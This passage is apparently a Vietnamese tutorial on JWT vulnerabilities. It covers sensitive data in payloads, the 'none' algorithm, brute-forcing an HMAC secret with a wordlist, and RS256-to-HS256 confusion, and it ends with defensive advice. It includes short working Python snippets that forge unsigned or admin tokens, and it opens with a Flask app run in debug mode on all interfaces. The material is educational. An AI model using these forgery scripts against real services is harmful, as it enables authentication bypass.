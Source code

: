 if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)

```
# Một số dạng Attack:
## The leakage of sensitive information
Bởi vì payload được truyền đi dưới dạng plaintext, thông tin có thể bị rò rỉ nếu có những thông tin nhạy cảm trong phần payload

## Modify the algorithm to none
Signature algorithm được dùng để ngăn không cho JWT bị thay đổi. Nhưng alg trong header có thể đổi thành none. Một số thư viện JWT support none alg, khi alg được set thành none, backend sẽ không thực hiện việc xác thực chữ kí. Điều này chỉ sảy ra khi phía user parse JWT mà không check thuật toán
Để thực hiện được điều này ta có thể sử dụng thư viện pyjwt(pip install pyjwt)
```
import jwt
encoded = jwt.encode({'username': 'admin'}, '', algorithm='none')
Crack Secretkey(HMAC)
import jwt 
data = open("rockyou.txt", errors = 'ignore').read().split()
 
token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw"
secret = ''
for pw in data: 
    encoded = jwt.encode({"role":"guest"}, pw, algorithm='HS512')
    if (encoded == token) :
        secret = pw
        break
 
print("Secret key is " + secret)
 
admintoken = jwt.encode({"role":"admin"}, secret, algorithm='HS512')
print(admintoken)
```
## Đổi RS256 thành HS256
Ý tưởng tấn công như sau: khi ta đổi thuật toán từ RS256 thành HS256 thì signature sẽ được xác thực bằng thuật toán HS256 sử dụng public key thay cho secret key. Bởi vì public key có thể dễ dàng lấy được, ta có thể dễ dàng giả mạo 1 JWT sử dụng RS256

Và còn nhiều dạng tấn công khác nữa…
https://clbuezzz.wordpress.com/?s=jwt

https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens

## Cách phòng chống Attack.
 - Kiểm tra tính hợp lệ của JWT: Mỗi khi nhận được một JWT, hãy kiểm tra xem nó có hợp lệ không. Điều này bao gồm kiểm tra Signature và thời hạn của JWT.
 - Sử dụng các thư viện và công cụ an toàn: Sử dụng các thư viện JWT đã được kiểm định và bảo trì, thay vì viết code từ đầu.
 - Không lưu trữ dữ liệu nhạy cảm trong JWT: JWT không nên chứa thông tin nhạy cảm như mật khẩu. Thay vào đó, lưu trữ thông tin nhạy cảm trong cơ sở dữ liệu và lưu trữ chỉ số tham chiếu trong JWT.
 - Sử dụng các thuật toán mã hóa mạnh mẽ: Chọn các thuật toán mã hóa như HMAC SHA-256 hoặc RSA với độ dài khóa đủ lớn để đảm bảo tính an toàn.
 - Sử dụng khóa bí mật chặc chẽ: Tránh Brute Force
 - Quản lý thời gian và thời gian hết hạn của JWT: Thiết lập một thời gian hết hạn hợp lý cho JWT để giảm thiểu nguy cơ tấn công làm giả và sử dụng tái JWT.
 - Bảo vệ khỏi tấn công Cross-Site Scripting (XSS): Để chống bị Steal JWT nằm trong Cookie
